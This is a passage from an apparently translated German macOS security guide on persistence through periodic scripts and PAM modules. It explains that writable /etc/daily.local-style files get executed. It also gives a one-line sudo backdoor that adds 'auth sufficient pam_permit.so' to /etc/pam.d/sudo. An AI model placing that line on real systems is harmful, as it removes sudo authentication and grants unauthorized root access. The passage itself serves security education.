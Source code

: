 ```bash

/etc/periodic/monthly:
total 24
-rwxr-xr-x  1 root  wheel   888 May 13 00:29 199.rotate-fax
-rwxr-xr-x  1 root  wheel  1010 May 13 00:29 200.accounting
-rwxr-xr-x  1 root  wheel   606 May 13 00:29 999.local

/etc/periodic/weekly:
total 8
-rwxr-xr-x  1 root  wheel  620 May 13 00:29 999.local
```
{% endcode %}

Es gibt andere periodische Skripte, die ausgeführt werden, die in **`/etc/defaults/periodic.conf`** angegeben sind:
```bash
grep "Local scripts" /etc/defaults/periodic.conf
daily_local="/etc/daily.local"				# Local scripts
weekly_local="/etc/weekly.local"			# Local scripts
monthly_local="/etc/monthly.local"			# Local scripts
```
Wenn Sie es schaffen, eine der Dateien `/etc/daily.local`, `/etc/weekly.local` oder `/etc/monthly.local` zu schreiben, wird sie **so oder so ausgeführt**.

{% hint style="warning" %}
Beachten Sie, dass das periodische Skript **als Eigentümer des Skripts ausgeführt wird**. Wenn also ein regulärer Benutzer das Skript besitzt, wird es als dieser Benutzer ausgeführt (dies könnte Privilegieneskalationsangriffe verhindern).
{% endhint %}

### PAM

Writeup: [Linux Hacktricks PAM](../linux-hardening/linux-post-exploitation/pam-pluggable-authentication-modules.md)\
Writeup: [https://theevilbit.github.io/beyond/beyond\_0005/](https://theevilbit.github.io/beyond/beyond\_0005/)

* Nützlich, um die Sandbox zu umgehen: [🟠](https://emojipedia.org/large-orange-circle)
* Aber Sie müssen root sein
* TCC-Umgehung: [🔴](https://emojipedia.org/large-red-circle)

#### Standort

* Root immer erforderlich

#### Beschreibung & Ausnutzung

Da sich PAM mehr auf **Persistenz** und Malware konzentriert als auf die einfache Ausführung innerhalb von macOS, wird dieser Blog keine detaillierte Erklärung geben, **lesen Sie die Writeups, um diese Technik besser zu verstehen**.

Überprüfen Sie die PAM-Module mit:
```bash
ls -l /etc/pam.d
```
Eine Persistenz-/Privilegienerhöhungstechnik, die PAM ausnutzt, ist so einfach wie das Ändern des Moduls /etc/pam.d/sudo, indem man am Anfang die Zeile hinzufügt:
```bash
auth       sufficient     pam_permit.so
```
So wird es **aussehen** wie etwas wie dies:
```bash
# sudo: auth account password session
auth       sufficient     pam_permit.so
auth       include        sudo_local
auth       sufficient     pam_smartcard.so
auth       required       pam_opendirectory.so
```